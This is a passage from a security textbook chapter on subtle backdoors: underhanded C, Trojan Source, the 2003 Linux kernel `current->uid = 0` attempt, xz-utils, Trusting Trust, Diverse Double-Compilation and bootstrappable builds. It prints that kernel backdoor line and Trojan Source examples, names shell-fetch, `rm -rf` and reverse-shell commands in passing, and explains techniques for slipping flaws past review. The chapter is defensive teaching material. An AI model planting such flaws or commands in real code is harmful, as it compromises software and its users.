




# Chapter 5 — Backdoors and Malicious Code: From Underhanded C to Trusting Trust

*What this chapter covers.* Every previous chapter in this book assumed a comforting premise:
that a human reviewer, given the diff, can tell whether a change is safe. Chapter 3 built the
two-person gate on exactly that assumption, then admitted its limit in a single sentence — code
review catches obvious malice and misses subtle malice. This chapter is about the subtle malice.
It is about code that is *engineered to pass review* — that a competent, security-conscious
engineer reads, understands, and approves, because it looks correct, and it is not. We start
with the craft of underhanded code (deliberate flaws that survive a careful read), move through
the real incidents that prove it works at the highest levels of open source (the 2003 Linux
kernel `uid = 0` attempt, Trojan Source, xz-utils), map the review blind spots where backdoors
actually live, and then descend to the theoretical floor: Ken Thompson's "Reflections on Trusting
Trust," the demonstration that a backdoor can live in a *binary compiler* with no trace in any
source anyone can read. Book 1, Chapter 6 introduced that argument; here we give it the full
treatment it deserves and then present the two practical answers that break the regress — David A. Wheeler's Diverse Double-Compilation and the
Bootstrappable Builds project. The through-line is uncomfortable and important: **source review
has a floor it cannot see below**, and the only defenses that reach beneath it are diversity,
reproducibility, and a minimized trusted base — not more careful reading.

Learning goals — after this chapter you should be able to:

- Distinguish **obvious malware** (which review and scanning catch) from **underhanded code**
  (engineered to be approved by a reviewer who fully understands it), and explain why the latter
  is the threat that matters for an adversary with commit access or a mergeable PR.
- Enumerate the **techniques of underhanded code** — language footguns (`=` vs `==`, integer
  overflow, precedence, macro expansion), misleading formatting and naming, and Unicode attacks
  (bidirectional-override "Trojan Source," homoglyphs, invisible characters) — and describe each
  mechanism accurately.
- Explain the canonical real incidents: the **2003 Linux kernel** `current->uid = 0` backdoor
  attempt, **Trojan Source** (Boucher and Anderson, 2021, CVE-2021-42574), and **xz-utils**
  (CVE-2024-3094) as a backdoor that hid in test fixtures and build scripts, not app source.
- Identify the **review blind spots** — build scripts, test data, generated and vendored code,
  dependencies, binary blobs, long boring diffs — and scrutinize them accordingly.
- State **Trusting Trust** precisely: a compiler backdoor that inserts a backdoor into a target
  program *and* re-inserts itself when compiling the compiler, so it survives removal from source.
- Explain how **Diverse Double-Compilation** detects a Thompson attack without requiring a trusted
  compiler, and how **bootstrappable builds** shrink the unauditable trusted base — connecting both
  to reproducible builds (Book 4, Chapter 2).
- Apply this at fleet scale: why a compromise in the **shared toolchain or build platform** is the
  deepest version of the SolarWinds lesson, and why reproducibility, diversity, minimized trust,
  and provenance are the only controls that reach below source review.

## The spectrum: obvious malware versus underhanded code

Malicious code that reaches a repository sits on a spectrum defined by one variable: *how hard is
it to notice?* At one end is obvious malware — a `curl … | sh` that pulls a second-stage payload,
an `os.system("rm -rf")`, a hardcoded reverse shell, an exfiltration call to an attacker-controlled
domain. This is the material that fills the malicious-package feeds analyzed in Book 2, Chapter 4.
It is *loud*: a reviewer who reads the diff sees it, a scanner flags the network call or shell-out,
behavioral analysis of the artifact catches the callback. The defenses in this book and the last
three are collectively good at obvious malware — which is precisely why an adversary who has done
the hard work of obtaining commit access, through account takeover (Chapter 6), a long
social-engineering campaign (the xz playbook, Chapter 3), or an insider position, does not use it.
Spending months to become a trusted co-maintainer and then pushing a `nc -e /bin/sh` would be
malpractice.

At the other end is **underhanded code**: a change that a careful, competent reviewer reads,
understands line by line, and *approves* — because on its face it is correct, idiomatic, and
plausibly motivated — while it silently weakens a security property or opens a backdoor. This is
the threat model that actually matches the adversary of this book. The adversary here is not trying
to sneak past a reviewer who is skimming; they are trying to be *approved by a reviewer who is
paying attention*. The distinction is everything. Against obvious malware, "review the diff more
carefully" is a real control. Against underhanded code, it is not — the code was built assuming a
careful read, and it survives one by construction. As Chapter 3 put it, branch protection bounds
the single malicious actor, but the second reviewer is a human reading text, and text can be
crafted to deceive a human reading it.

The underhanded adversary has two families of technique. The first is to make wrong code *look
right* — to hide the defect in the semantics or the rendering of the source itself. The second,
deeper move is to hide the malice *where the reviewer never looks* — in the build machinery, the
test data, the generated code, the dependency you didn't audit, or, at the limit, in the compiler
binary that no source describes at all.

## Underhanded code: making wrong code look right

The reference tradition here is the **Underhanded C Contest**, run by Scott Craver in the 2000s
and 2010s. The rules capture the threat precisely: submit C source that performs a benign,
clearly-specified task but also contains a deliberate malicious flaw — and the winning entries are
the ones whose flaw is *least likely to be spotted by a reviewer who is told malice is present*.
That last clause makes the contest a genuine study of the review floor: contestants are graded
against reviewers who *know a backdoor is there* and still miss it. If malice survives a paranoid,
primed reviewer, it will trivially survive an ordinary PR review that assumes good faith.

The winning techniques are a catalogue of the ways source semantics diverge from source appearance.

**Language footguns.** C, C++, and to a lesser degree every language, contain constructs where the
plain reading of the text is not the meaning the compiler assigns. These are the raw material of
underhanded code because the reviewer's eye supplies the "obvious" interpretation and the compiler
supplies a different one:

- **`=` versus `==`.** An assignment inside a conditional (`if (x = 0)`) reads, at a glance, like a
  comparison. It compiles as an assignment with a side effect, and its truth value is the assigned
  value. This is the single most famous underhanded primitive, and — as we will see in the next
  section — it is exactly the mechanism of the 2003 Linux kernel attempt.
- **Integer overflow and signedness.** A length check `if (len < 0 || len > MAX)` looks complete,
  but if `len` is later used as an `unsigned` or multiplied (`len * sizeof(elem)`) the product can
  wrap, and the "validated" length now authorizes a heap overflow. A signed-to-unsigned conversion
  in a bounds check silently turns a negative attacker-controlled value into a huge positive one.
- **Operator precedence.** `x & MASK == 0` does not test `(x & MASK) == 0`; `==` binds tighter, so
  it tests `x & (MASK == 0)`, i.e. `x & 0`, i.e. always zero. A reviewer who "knows what it means"
  reads the intended grouping, not the real one.
- **Macro expansion.** A macro that omits parentheses (`#define HALF(x) x / 2`) or double-evaluates
  its argument (`#define MAX(a,b) ((a) > (b) ? (a) : (b))` called as `MAX(i++, j)`) produces
  behavior the call site does not show. A security-relevant macro — a bounds check, a
  constant-time comparison — hidden in a header can differ from what it appears to do at the point
  of use, and the reviewer of the call site never opens the header.
- **Off-by-one and fencepost errors that weaken, not break.** The most insidious logic flaws do not
  crash; they *quietly widen* an allowed set. A loop bound of `<=` instead of `<`, a `>=` in a
  rate limiter, a `memcmp` length that is one byte short of the secret — each looks like an
  ordinary boundary decision and each is a security hole.

**Misleading formatting and naming.** Indentation is not syntax in C, so a body that appears to be
inside a conditional can be outside it. Apple's 2014 `goto fail; goto fail;` TLS bug — an
accidental duplicated `goto` that made certificate verification always "succeed" — was not
underhanded by intent, but it is the exact shape an underhanded author would choose: a second
statement, correctly indented to look guarded, that always executes. Names lie too — a function
called `is_valid` that returns nonzero on *invalid* input, a `secure_mode` flag that gates the
insecure path. The reviewer trusts the name and does not re-derive the logic.

**Comment and whitespace deception.** A trailing backslash ending a comment line continues the
comment onto the next line in C, swallowing a statement; a block comment that appears to end does
not, leaving the "live" code after it inert; and long lines that scroll off the right edge of a
review pane hide content outright.

None of these require anything exotic — only that the reviewer's model of the code, built from
names, layout, and the "obvious" reading, diverge from the compiler's. And then there is a class of
attack that makes the divergence *literal*: source that the compiler and the reviewer read as
genuinely different byte sequences.

### Trojan Source: when the source you see is not the source that compiles

In 2021, Nicholas Boucher and Ross Anderson of the University of Cambridge published **"Trojan
Source: Invisible Vulnerabilities,"** with the bidirectional-override variant assigned
**CVE-2021-42574**. The insight is that source code is Unicode text, and Unicode text has a
*display* algorithm distinct from its *logical byte order*. The compiler tokenizes the logical byte
sequence. The reviewer reads the *rendered* glyphs. If those two disagree, you have a backdoor that
is invisible not because it is subtle but because the human literally cannot see it.

The primary mechanism is the **Unicode Bidirectional Algorithm** (bidi), which exists for the
legitimate purpose of mixing left-to-right scripts (Latin) with right-to-left scripts (Arabic,
Hebrew) in one document. Bidi includes explicit *override* and *isolate* control characters —
`RLO` (Right-to-Left Override, U+202E), `LRO`, `RLI`/`LRI` (isolates), `PDI`, `PDF` — that force or
scope the display direction of the runs around them. These characters have **zero width**: they
produce no glyph. A run of them can reorder how a line of source is *displayed* while leaving the
byte order the compiler parses completely unchanged.

The consequence is that a reviewer can see a `return` statement that appears to be inside a comment,
or a comment that appears to end before code that is in fact still commented out, or arguments in a
call that appear in a different order than they are passed. Consider the archetypal
"commented-out-return" attack, shown here with the invisible controls written as visible tokens in
square brackets (in a real file these produce no glyphs):

```c
#include <stdio.h>

int main() {
    int is_admin = 0;
    /* Check if admin [RLO] begin admin-only block [LRI]*/
    if (is_admin) {
        printf("You are an admin.\n");
    }
    /* [RLO] end admin-only block [LRI]*/
    return 0;
}
```

That is deliberately mild. The dangerous form uses the overrides so that what *renders* as

```c
    access_level = "user";   /* if access_level is admin, grant */
```

is parsed by the compiler as

```c
    access_level = "user";   if (access_level == "admin") { grant() } /*
```

with the `if` and its body reordered by bidi controls out of what looks like the comment. The
reviewer approves a line that reads as an inert comment; the compiler builds a privilege check that
grants access. A related paper technique is the **homoglyph** attack (CVE-2021-42694): defining an
identifier with a character visually identical to an ASCII letter but a different code point — a
Cyrillic `а` (U+0430) for Latin `a` — so that `validate_user()` and `vаlidate_user()` render
identically but are two distinct functions, letting a call site be silently redirected to the
attacker's copy. **Invisible characters** (zero-width space U+200B, zero-width non-joiners) round
out the family: they split or join identifiers invisibly, or pad a string so a comparison that
appears to match does not.

The important properties of Trojan Source, stated accurately: it is a *source-encoding* attack, not
a compiler bug; it affects essentially every language whose toolchain accepts Unicode source
(the paper demonstrated it across C, C++, C#, JavaScript, Java, Rust, Go, Python, and others); and
it defeats the reviewer specifically because rendering and compilation diverge. The response was
tooling, not vigilance — the correct answer to an invisible character is a linter or compiler that
*sees* it, which we return to under detection. After the disclosure, Rust, Go's toolchain, GCC,
and others added warnings for bidi controls in source; GitHub and other forges began rendering a
visible warning banner on files containing bidirectional-override characters.

## Real subtle backdoors: three that matter

### The 2003 Linux kernel `uid = 0` attempt

The canonical real-world example of underhanded source is a two-line change to the Linux kernel in
November 2003. An attacker gained write access to a *CVS mirror* of the kernel tree — not the
authoritative BitKeeper repository Linus Torvalds and the maintainers used, but a CVS gateway kept
in sync with it — and added, inside `sys_wait4()` in `kernel/exit.c`, this:

```c
if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
        retval = -EINVAL;
```

Read it the way a reviewer reads it: a guard that returns `-EINVAL` (invalid argument) when
`wait4` is called with a particular, unusual combination of options and some uid condition. It
looks like defensive input validation. It is a root backdoor. The payload is the inner
`current->uid = 0` — a single `=`, an assignment, not the `==` comparison the eye supplies. When a
process calls `wait4` with `options == (__WCLONE|__WALL)`, the first conjunct is true, so C
evaluates the second, and evaluating `current->uid = 0` *sets the calling process's user ID to 0*,
which is root. The expression's value is the assigned value, `0`, which is false, so `&&`
short-circuits to false and the `if` body never runs — `retval` is untouched, `wait4` returns
normally, and there is not even the `-EINVAL` symptom the code pretends to produce. The attacker
calls `wait4` with those flags from an unprivileged process and comes back as root, with no error,
no log, and a diff that reads like a bounds check.

Two things make this the definitive example. First, the mechanism is the purest possible
demonstration of `=` versus `==` weaponized: everything about the line is chosen so that the
correct-looking reading and the compiled reading differ by one character with a privilege
escalation hiding in the gap. Second, it was **not** caught by reading the code. It was caught by
*integrity*, not *review*: the change appeared in the CVS mirror with no corresponding BitKeeper
changeset, and the tooling that reconciled the two flagged the anomaly. This is the lesson of
Chapter 1 and Chapter 2 arriving early — a verifiable, tamper-evident history caught what a human
read of a plausible diff would not. Nobody knows for certain whether an ordinary review would have
approved it; the sobering answer is that it very well might have.

### xz-utils: the backdoor that lived where nobody reads

The xz-utils backdoor (CVE-2024-3094), analyzed in full in Book 1, Chapter 5, is the modern
masterclass, and its relevance here is *where* the malice lived. After a roughly two-year
social-engineering campaign (the "Jia Tan" persona earning co-maintainer trust — the subject of
Chapter 3's trusted-contributor problem), the actual malicious payload was placed not in any C
source file a reviewer would read, but in the two places reviewers structurally do not look:

- **Binary test fixtures.** The obfuscated, encrypted payload was carried inside crafted `.xz` test
  files in the `tests/files/` directory — `bad-3-corrupt_lzma2.xz` and `good-large_compressed.lzma`
  — files that are, by their nature, opaque binary blobs. No human reviews the bytes of a
  compression library's corpus of test inputs; that is the point of them.
- **The build machinery, present in the tarball but not in git.** A doctored autotools macro,
  `build-to-host.m4`, existed in the *release tarballs* but not in the git repository. During
  `./configure`, that macro extracted the payload from the test fixtures, deobfuscated it through a
  chain of `tr`/`sed`/`xz` steps, and injected it into the build of `liblzma`, which — through
  systemd's linkage — ended up hooking `sshd`'s authentication path.

Every property here is a review-evasion property. The reviewer of the git tree never sees
`build-to-host.m4` because it is not in the git tree; it materializes only in the tarball a distro
downloads. The reviewer never reads the test blobs because they are binary and "just test data."
The C source that a diligent reviewer *would* read is clean. The lesson generalizes far beyond xz:
**a competent backdoor hides in the parts of the source tree that review does not cover** — and in
the gap between what is in version control and what is in the artifact you actually build. It is
also why "build from the git source, not the tarball" and "review the build scripts and test data,
not just the app code" are load-bearing controls and not paranoia.

## Where backdoors hide: the review blind spots

Underhanded code and the xz playbook point at the same structural truth: reviewers focus their
attention on application source — the `.c`, `.go`, `.py`, `.ts` files that implement the feature —
and spend far less, often zero, attention everywhere else. The "everywhere else" is a rich attack
surface, and an adversary with a mergeable PR will aim there.



The catalogue, with the mechanism for each:

- **Build scripts, configure, and macro files.** `Makefile`, `configure.ac`, autotools `.m4`
  macros, Bazel `BUILD`/`.bzl`, `package.json` lifecycle scripts, `setup.py`. These run with the
  developer's or CI's privileges at build time and can fetch, generate, or modify code arbitrarily.
  xz lived here. A `preinstall` hook or a `build.rs` code-generation step is executed, not merely
  compiled, and almost never reviewed with the seriousness of application code.
- **Test fixtures and binary test data.** Golden files, recorded captures, compressed corpora,
  sample images — anything binary is unreadable by a human and therefore a safe place to carry a
  payload that a build step later extracts.
- **Generated, minified, and vendored code.** Nobody reads the output of a protobuf compiler, a
  bundler, or a code generator, and nobody reads `third_party/` or `vendor/`. A change that
  "regenerates" a file, or lands in a vendored copy, hides in content the reviewer skips by habit.
- **Dependencies.** The purest blind spot: the backdoor is not in your repository at all. It is in
  a transitive dependency and never appears in any diff a reviewer sees (Book 2 is the full
  treatment; the point here is that "review your PRs" does not cover it).
- **Binary blobs and artifacts committed to source.** A checked-in `.so`, a prebuilt binary, a
  firmware image, a container base layer — opaque by construction, and load-bearing at runtime.
- **Long, boring diffs and complexity as camouflage.** Review attention per line falls as diff size
  rises, so a defect buried in a thousand-line mechanical refactor is far more likely to be
  rubber-stamped than the same defect in a ten-line change. Deliberately convoluted control flow is
  itself camouflage: the reviewer who cannot easily trace the logic defers to the author rather than
  insisting on a rewrite.

## Detecting and defending against subtle backdoors

The honest framing first. Subtle backdoors are *defined by* their ability to survive review; if a
control's whole content is "review more carefully," it does not address them. Chapter 3's
two-person rule and security-focused review remain necessary — they are your defense against
obvious malware and honest mistakes, and they raise the bar for the underhanded author — but you
must not mistake them for a solution to underhanded code. The realistic posture is defense in
depth: several independent controls, none sufficient alone, that together make the adversary's job
much harder and their success much more likely to be *detected after the fact* even if not
prevented at review.

**Redirect review attention to the blind spots.** The single highest-leverage change is cheap:
make the high-risk locations *require* the scrutiny that application code gets. CODEOWNERS
(Chapter 3) that force security-team or build-team review on `build/`, `*.m4`, CI YAML, dependency
manifests, and code-generation config. A policy that binary blobs and vendored code cannot change
without an explicit, justified sign-off. A rule that generated files are regenerated in CI and
*diffed* against the committed copy, so a hand-edited "generated" file is caught. The goal is to
delete the assumption "this file is boring, so I'll skim it."

**Tooling that sees what humans cannot.**

- **Trojan Source / Unicode detectors.** The correct response to invisible characters is a machine
  that is not fooled by rendering. Post-2021, GCC (`-Wbidi-chars`), Rust, Go, many linters, and the
  forges themselves warn on or reject bidirectional-override and suspicious invisible characters in
  source. A CI check that rejects any bidi control or unexpected non-ASCII code point in source
  files closes this class outright — it is a few lines of policy and there is no reason not to run
  it.

  ```bash
  # Reject bidirectional-override and other risky Unicode controls in tracked source.
  # U+202A..U+202E (embeddings/overrides), U+2066..U+2069 (isolates), U+200B (ZWSP), U+FEFF (BOM).
  if git grep -nP '[\x{202A}-\x{202E}\x{2066}-\x{2069}\x{200B}\x{FEFF}]' -- '*.c' '*.go' '*.rs' '*.py'; then
      echo "Bidirectional/invisible Unicode control characters found in source" >&2
      exit 1
  fi
  ```

- **SAST / static analysis.** Static analyzers catch *classes* of the semantic footguns:
  assignment-in-conditional (`-Wparentheses` and equivalents), integer-overflow and
  signedness-narrowing warnings, uninitialized reads, dead-code-after-`goto`. They do not understand
  intent, so they will not tell you a bounds check is deliberately one byte short — but they
  eliminate the *accidental* versions and force an underhanded author to work harder and more
  visibly.
- **Binary-blob and generated-code detection.** A CI check that flags new binary files entering the
  tree and fails when a committed generated file does not match a fresh regeneration removes two of
  the biggest hiding places.
- **Reproducible builds and provenance.** The control that catches the xz-class *build-time*
  injection is a **reproducible build** (Book 4, Chapter 2): rebuild the artifact from source in a
  clean, hermetic environment and compare bit-for-bit against the released binary. A payload
  injected by a `configure`-time macro that is not in the reviewed source produces a mismatch. This
  is the point at which "review the source" stops being the only tool — you are now checking that
  the *binary corresponds to the source*, which is a different and stronger claim, and it is the
  hinge to the second half of this chapter.

**Minimize the trust surface.** Every one of the above is easier the smaller the surface. Fewer
dependencies (Book 2, Chapter 10) means fewer repos where a backdoor can live. Building from
version-controlled source rather than upstream tarballs — the direct xz lesson — removes the
git-versus-tarball gap that hid `build-to-host.m4`. These are not glamorous, and they are the
controls that actually move the adversary's cost.

## Trusting Trust: the floor beneath source review

Everything so far assumed that if you could see all the source — application code, build scripts,
test data, dependencies, all of it — you could, in principle, establish trust. Ken Thompson's 1984
Turing Award lecture, **"Reflections on Trusting Trust,"** demolishes that assumption. It shows
that a backdoor can live in the *binary compiler* with **no trace in any source anyone can read**,
and reproduce itself indefinitely across clean recompilations. Book 1, Chapter 6 introduced the
argument; this is the full mechanical treatment, and it is worth getting exactly right because it
is almost always mis-stated.

The attack has three stages. They build on one trick you already know from any language: a
**self-reproducing program** (a quine), which proves a program can emit its own source as data.
Thompson uses that capability to make a compiler carry a payload that survives being removed from
its own source.

**Stage one — backdoor a target program from the compiler.** Take `login`, the program that checks
passwords. You do *not* modify `login`'s source. Instead you modify the C compiler so that it
*recognizes* when it is compiling `login` and, at that moment, silently emits extra machine code —
an accept-any-password path, say. Now `login`'s source is pristine; the malice lives in the
compiler. Anyone auditing `login` finds nothing. But anyone auditing the *compiler's* source finds
the pattern-match on `login` and the injected code — so the backdoor is visible one level up.

**Stage two — hide the backdoor from the compiler's own source.** Push it down a level. Teach the
compiler to recognize a second thing: when it is compiling *itself* (the C compiler's own source).
On recognizing its own source, it inserts **both** pieces of malice into the compiler it is
producing — the `login`-recognizer *and* this self-recognizer. Written as source, the compiler now
contains two ugly `if` blocks: "if compiling `login`, inject backdoor" and "if compiling the
compiler, re-inject both of these blocks." At this stage the malice is still visible in the
compiler source; the self-recognizer is the machinery that will let you *delete* it.

**Stage three — the payoff: remove the malice from source entirely.** Compile the compiler once,
using the malicious source, to produce a **poisoned compiler binary**. Then throw the malicious
source away — restore the compiler's source to its clean, original form. Now audit everything.
`login`'s source: clean. The compiler's source: clean. There is no backdoor in any source file on
disk. But you build the system with the poisoned compiler *binary*, and when that binary compiles
the clean compiler source, it recognizes it (stage two's self-recognizer, which lives in the
binary now, not the source) and re-injects both payloads into the new compiler binary — which in
turn will backdoor the next `login` it compiles and re-poison the next compiler it builds. The
backdoor has become a self-perpetuating property of the *binary toolchain*, propagating across
generation after generation of provably-clean source, visible in none of it.



The recursion in that diagram is the whole point: the poisoned binary produces a new poisoned
binary that produces a new poisoned binary, and each one backdoors `login`. Diffing the compiler
source against a known-good version finds nothing, because the source *is* known-good. Rebuilding
the compiler from clean source does not help, because you rebuild it *with the poisoned binary*,
which re-poisons the output. The only source-level artifact of the attack — the two `if` blocks —
was deleted at stage three and now exists solely as machine code that no source describes.

Thompson's stated moral: **you cannot fully trust code you did not totally create yourself** — and
since no one creates their entire toolchain from nothing, that means you cannot, by source
inspection alone, fully trust *anything*. Auditing source is insufficient because the tool that
compiles the source can betray both the source and itself, invisibly. And the argument does not
stop at the compiler. The compiler was built by another compiler; the assembler and linker are
themselves binaries; those run on an operating system that is a binary; the OS runs on a CPU
executing microcode; the microcode runs on silicon fabricated by someone else. At every layer, the
same move is available: a backdoor in the layer's *implementation* that is invisible in the layer's
*source*, and that could subvert everything above it. Source review has a floor, and the floor is
"the source I can read"; below it is an entire stack of binaries and hardware that source review
cannot see into.



Read that stack top to bottom as *decreasing visibility to source review*: green is what you
actually read, yellow is source you *could* read but usually don't (deps, toolchain), orange is the
Trusting-Trust floor (the compiler and OS binaries that source review cannot verify by reading),
and red is the hardware layer no software audit reaches at all. The uncomfortable conclusion of
Thompson's lecture is that verification does not terminate on its own — every chain of "I checked
the source of the thing that built it" eventually rests on a binary or a person you did not, and
cannot, fully audit.

## Breaking the regress I: Diverse Double-Compilation

For twenty-five years Thompson's argument was treated as an unanswerable koan — a proof that trust
is impossible, full stop. It is not. David A. Wheeler's 2009 doctoral dissertation, **"Fully
Countering Trusting Trust through Diverse Double-Compiling"** (DDC), provides a practical rebuttal.
It does not achieve perfect trust; it makes a Thompson attack *detectable* under a realistic
assumption, and — crucially — it does so **without requiring a compiler you already trust**. It
requires only a *diverse* one: a second, independently-implemented compiler that is not backdoored
*in the same way*.

Set up the problem precisely. You have a compiler you want to check — call its binary `cT` (the
compiler under test) and its source `sT`. The Thompson attack is exactly the case where `cT`'s
binary contains behavior that is *not present in* `sT`: a backdoor that lives in the binary and
re-injects itself, so `sT` looks clean. The question DDC answers is a single, sharp one: **does the
binary `cT` correspond to its source `sT`?** If it does, there is no hidden implant; if it does
not, something is in the binary that the source does not describe.

The procedure uses a second, diverse compiler `cA` (a *different* compiler — different codebase,
ideally different author lineage — that can also compile `sT`). It is *double*-compilation because
you compile the source under test twice:

1. **Compile `sT` with `cA`.** This produces a working compiler binary, call it `stage1`. Because
   `cA` is a different compiler, `stage1` is *functionally* equivalent to `cT` but *not*
   bit-identical — `cA` and `cT` make different code-generation choices, register allocations,
   instruction selections. You cannot compare `stage1` to `cT` directly yet.

2. **Compile `sT` again, this time with `stage1`.** Call the result `stage2`. This second
   compilation is the clever part. `stage2` is "the compiler that `sT` defines, as compiled by the
   compiler that `sT` defines." Its output depends only on the *semantics specified by `sT`*, not on
   `cA`'s idiosyncratic code generation — those idiosyncrasies were washed out by going through a
   compiler (`stage1`) that itself implements `sT`. Assuming the build is deterministic, `stage2` is
   the canonical binary that `sT` *should* produce.

3. **Produce the reference from `cT`.** Independently, compile `sT` with `cT` (the suspect) to get
   the binary `cT` actually generates from its own source — its self-build.

4. **Compare `stage2` against `cT`'s self-build, bit-for-bit.**



Why this detects a Thompson attack: suppose `cT` carries a self-propagating backdoor that is *not*
in `sT`. When `cT` compiles `sT` (step 3), the backdoor recognizes it is compiling the compiler and
re-injects itself — so `cT`'s self-build contains the implant. But `stage2` was produced through
`cA`, and `cA` does not know the trigger; `cA` faithfully compiled exactly what `sT` says, which is
clean, and `stage1` (also clean, since it came from clean `sT` via clean `cA`) likewise compiled
`sT` faithfully. So `stage2` does *not* contain the implant. The two binaries differ, and the
difference *is* the backdoor. The attacker's only escape is to have subverted `cA` **as well**, and
in the *same way* — to make `cA` also recognize `sT` and inject the identical implant. Since `cA` is
an independent implementation with a different codebase, that is a dramatically higher bar than
subverting one compiler.

Note what DDC does and does not assume. It does **not** assume a trusted compiler — `cA` may be
old, weak, slow, or itself of uncertain provenance. It assumes only that `cA` and `cT` are not
backdoored *identically*, i.e. that two independent lineages do not both contain the same
trigger-and-payload. DDC therefore does not *eliminate* trust; it **relocates** it — from "trust
this compiler binary" to "trust that two diverse compilers are not identically compromised" — and
makes any failure of *that* assumption detectable. And it depends utterly on **reproducible builds**
(Book 4, Chapter 2): "reproduces bit-for-bit" is only meaningful if an honest compilation is
deterministic. DDC is, in the deepest sense, *reproducibility applied to the trust-the-toolchain
problem* — the same bit-for-bit comparison that catches a build-inserted backdoor like xz, turned
on the compiler itself. Wheeler carried it out in practice, using tcc to verify a build of GCC,
demonstrating that the koan has an engineering answer.

## Breaking the regress II: bootstrappable builds

DDC *detects* a Thompson implant. The **Bootstrappable Builds** project attacks the same problem
from the other side: it *shrinks the unauditable trusted base* until what you must take on faith is
small enough to inspect. The two are complementary — detect the implant, and minimize the surface
where one can hide.

The problem bootstrappable builds address is that a modern toolchain cannot be built from source
alone: to compile GCC you need a C (now C++) compiler, which you need a compiler to build, and so
on. In practice everyone breaks the loop with a **prebuilt binary seed** — a large, opaque compiler
binary you download and trust because you have no alternative. That seed is exactly a
Trusting-Trust-sized hole: hundreds of megabytes of machine code that no one audits and that could
carry Thompson's implant.

The project's goal is to reduce that seed to something a human can actually read, and then build
everything else from auditable source on top of it. Two components matter:

- **stage0.** A tiny seed built around `hex0`, a minimal self-hosting hex-to-binary "assembler" of
  a few hundred bytes — small enough to audit by hand, and even to type in from a printed listing.
  From `hex0` you bootstrap `hex1`, `hex2`, a minimal macro assembler, and **M2-Planet** (a
  compiler for a subset of C), each stage written in and built by the previous, each auditable.
- **GNU Mes.** A small Scheme interpreter (`mes`, written in a simple C that the lower stages can
  compile) together with **MesCC**, a C compiler written in Scheme. Mes plus MesCC can build a
  reduced **TinyCC (tcc)**, which can build an old GCC, which builds a modern GCC and the rest of
  the toolchain.

Chained together — `hex0` → M2-Planet → Mes/MesCC → tcc → GCC — this is a **full-source bootstrap**
whose root of trust is a seed measured in *bytes*, not megabytes. GNU Guix adopted the reduced- and
then full-source bootstrap to shrink its binary seed from hundreds of megabytes toward that tiny,
inspectable base. The claim is not that the result is *proven* free of Thompson attacks — it is that
the *amount you must trust blindly* has collapsed from an un-auditable binary compiler to a few
hundred bytes of hex a human can read. Combine it with DDC and reproducible builds and you have both
halves: a trusted base small enough to inspect, and a method to detect an implant inserted above it.

## Synthesis: what the engineer actually does

You cannot *solve* Trusting Trust — there is no final, self-evidently trustworthy layer. But the
argument that trust is unavoidable is not an argument that trust is unmanageable. Every practical
defense in this chapter reduces to one of four moves, and together they are a coherent program:

- **Reduce the trusted base.** Fewer dependencies (Book 2, Chapter 10). No unexplained binaries in
  the tree. A minimized, ideally bootstrappable toolchain. Build from version-controlled source,
  not from tarballs. Every deletion here is a place a backdoor can no longer hide.
- **Verify by diversity and reproducibility.** Reproducible, hermetic builds (Book 4, Chapter 2) so
  that "the binary corresponds to the source" becomes a checkable claim; diverse rebuilds and DDC so
  that an implant *not* in the source is detected; rebuilders operated independently so no single
  build environment is the sole witness.
- **Review the blind spots, not just the app code.** Force security-grade review onto build scripts,
  CI config, test data, generated code, and dependency manifests. Reject invisible/bidirectional
  Unicode in source. Diff generated against regenerated. This is where the xz-class backdoor lives,
  and it is cheap to cover.
- **Use transparency to detect misuse after the fact.** Transparency logs and provenance (Book 5,
  Chapter 5; Book 4, Chapter 3) do not prevent a subtle backdoor, but they make the *history* of
  what was built, from what source, by what toolchain, tamper-evidently observable — so a later
  discovery has a trail to follow and a blast radius to bound.

No single control is sufficient — that is the defining property of subtle malice, and it is why the
answer is defense in depth. Review catches the obvious and raises the bar; reproducibility and DDC
reach below review to the toolchain; a minimized and bootstrappable base shrinks what you must
trust blindly; transparency makes misuse detectable. The adversary must defeat *all* of them, not
one.

## Distributed-systems lens

At the scale this book cares about — thousands of services, hundreds of teams, a high deploy
frequency — the trusted base is not per-team. It is *shared*. One compiler, one language toolchain,
one set of base images (Book 6, Chapter 3), one CI/build platform (Book 4, Chapter 10) builds the
artifacts for the entire fleet (this is the concentration Book 1, Chapter 9 describes). That
sharing is efficient, and it is exactly what makes a Trusting-Trust-style compromise catastrophic:
a backdoor in the shared toolchain or shared build platform would be **fleet-wide and invisible to
source review** in every repository simultaneously. Every team's diligent PR review would pass,
every team's source would be clean, and every artifact would carry the implant. This is the deepest
version of the SolarWinds lesson (Book 1, Chapter 3): SolarWinds compromised one build system to
reach thousands of downstream customers; a poisoned shared *compiler* would compromise everything
that shared compiler ever built, with *no* source-level artifact anywhere to find.

That is why the toolchain- and build-reaching defenses matter more at fleet scale than at any
individual repo. Source review cannot see below itself, so it cannot catch a compromise in the
shared base *no matter how many teams review carefully*. The controls that *can* are the ones this
chapter has built toward:

- **Reproducible and hermetic builds** (Book 4, Chapter 2) turned on the fleet's shared artifacts,
  so any build-inserted implant produces a mismatch someone can catch.
- **Diverse rebuilds and DDC-style verification** applied at the highest-value single point — the
  **shared build platform and its toolchain** (Book 4, Chapter 10). If you are going to run a
  diverse double-compilation anywhere, run it against the compiler that builds everything.
- **Minimized and bootstrappable toolchains** so the fleet's shared trusted base is small enough
  that its size is itself a security property.
- **Build provenance** (Book 4, Chapter 3) and **transparency** (Book 5, Chapter 5) so that every
  artifact records the toolchain and platform that produced it, and a later discovery in the shared
  base can be scoped precisely to what it touched.
- **Review focus on build/test/generated code across the fleet's repos**, enforced by org-level
  policy (Chapter 3, Chapter 8), to catch the xz-class where-reviewers-don't-look backdoor before
  it ever reaches the shared base.

The uncomfortable inversion is the lesson: the fleet's greatest efficiency — one shared build base
for everyone — is also its single deepest point of failure, and it is a point that source review,
the control everyone trusts, structurally cannot defend. Only reproducibility, diversity, a
minimized base, and provenance reach it.

## Key takeaways

- The real threat is not obvious malware, which review and scanning catch, but **underhanded code**
  engineered to be *approved by a reviewer who fully understands it*. Against it, "review more
  carefully" is not a control — the code was built to survive a careful read.
- Underhanded code exploits the gap between how source *reads* and what it *means*: language
  footguns (`=` vs `==`, integer overflow, precedence, macros), misleading naming and formatting,
  and **Unicode attacks** where the rendered glyphs and the compiled bytes genuinely differ
  (Trojan Source bidi overrides, CVE-2021-42574; homoglyphs; invisible characters).
- The **2003 Linux kernel** `if ((options == (__WCLONE|__WALL)) && (current->uid = 0))` attempt is
  the canonical `=`-vs-`==` root backdoor — and it was caught by *integrity* (a CVS/BitKeeper
  mismatch), not by reading the diff.
- Competent backdoors hide **where review does not look**: build scripts and macros, binary test
